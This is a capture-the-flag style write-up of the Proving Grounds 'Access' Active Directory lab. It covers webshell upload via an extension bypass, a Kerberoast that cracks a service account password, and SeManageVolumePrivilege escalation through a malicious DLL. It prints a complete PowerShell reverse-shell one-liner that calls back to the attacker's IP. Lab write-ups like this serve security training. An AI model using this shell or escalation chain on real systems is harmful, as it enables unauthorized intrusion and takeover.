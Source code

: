 ```yaml
---
title: "Access"
date: 2025-06-20
categories:
  - Proving Grounds
  - Active Directory
tags:
  - Proving Grounds
  - Active Directory
---
```


# Access 🔸
<!-- more -->


## Enumeration

![](../assets/Pasted%20image%2020250323155804.png)

Web server shows a page about the event.

![](../assets/Pasted%20image%2020250323155931.png)

## Initial Access

We can upload images, so we can upload a webshell; change the extension by intercepting the request and change it from `.png` to `.php...`

![](../assets/Pasted%20image%2020250323170917.png)

File will be in `/uploads` (discovered with `feroxbuster`).

![](../assets/Pasted%20image%2020250323171044.png)

Now let's try to get a reverse shell:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.45.220',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

![](../assets/Pasted%20image%2020250323182244.png)

## Privilege Escalation

Transfer `sharphound` and get the zip. See the data in `bloodhound`.

User `svc_mssql` is kerberoastable.

We don't have `svc_apache` password, so we have to execute the attack on the target. Transfer `rubeus` there.

![](../assets/Pasted%20image%2020250323190341.png)

Using `hashcat`:

![](../assets/Pasted%20image%2020250323190445.png)

We have `svc_mssql:trustno1`

To execute commands as this user, we need `runas`.

Using `-Remote`, we can redirect the shell to a remote one.

![](../assets/Pasted%20image%2020250323223151.png)

This user has `SeManageVolumePrivilege`.

![](../assets/Pasted%20image%2020250323223409.png)

Using [https://github.com/CsEnox/SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

Download and transfer the exe.

![](../assets/Pasted%20image%2020250323230405.png)

Now, following the readme, generate a malicious DLL with `msfvenom` and transfer it to `C:\windows\system32\spool\drivers\x64\3\PrintConfig.dll`

Start a listener and trigger it.

![](../assets/Pasted%20image%2020250323233313.png)
![](../assets/Pasted%20image%2020250323233344.png)

## Post Exploitation

![](../assets/Pasted%20image%2020250323233402.png)
